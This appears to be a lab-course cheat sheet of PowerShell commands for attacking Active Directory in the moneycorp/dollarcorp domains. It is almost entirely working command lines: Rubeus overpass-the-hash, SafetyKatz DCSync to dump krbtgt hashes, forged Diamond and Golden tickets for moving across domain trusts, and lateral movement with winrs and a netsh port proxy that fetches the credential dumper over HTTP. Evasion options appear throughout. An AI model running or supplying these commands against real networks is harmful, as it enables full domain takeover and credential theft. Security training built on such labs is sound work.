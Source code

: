 #### OPtH + Obtain krbtgt hash
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```

Obtain Domain Controllers SID of parent domain for interrealm Diamond ticket
```powershell
Get-DomainGroup -Identity "Domain Controllers" -domain moneycorp.local
```

Forge interrealm Diamond ticket using the DC identity 
> **Note:** `/sids` = (Domain Controllers SID), (Enterprise Domain Controllers -  S-1-5-9 )
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:dcorp-dc$ /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:1000 /sids:S-1-5-21-335606122-960912869-3279953914-516,S-1-5-9 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

Run DCsync on parent domain
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\SafetyKatz.exe "lsadump::evasive-dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

Forge golden ticket to access parent domain DC
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /aes256:90ec02cc0396de7e08c7d5a163c21fd59fcb9f8163254f9775fc2604b9aedb5e /sid:S-1-5-21-335606122-960912869-3279953914 /ldap /user:Administrator /domain:moneycorp.local /printcmd
```

Run displayed command and add `/ptt`
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args Evasive-Golden /aes256:90EC02CC0396DE7E08C7D5A163C21FD59FCB9F8163254F9775FC2604B9AEDB5E /user:Administrator /id:500 /pgid:513 /domain:moneycorp.local /sid:S-1-5-21-335606122-960912869-3279953914 /pwdlastset:"11/11/2022 6:34:22 AM" /logoncount:550 /netbios:mcorp /groups:544,512,520,513 /dc:MCORP-DC.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

> **Note:** Can only access resources that were explicitly shared with you

Across external trusts - OPtH and obtain trust key
```powershell
C:\Users\Public\Loader.exe -path C:\Users\Public\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```powershell
echo F | xcopy C:\Users\Public\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe

winrs -r:dcorp-dc 

netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.48

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-trust /patch" "exit"
```


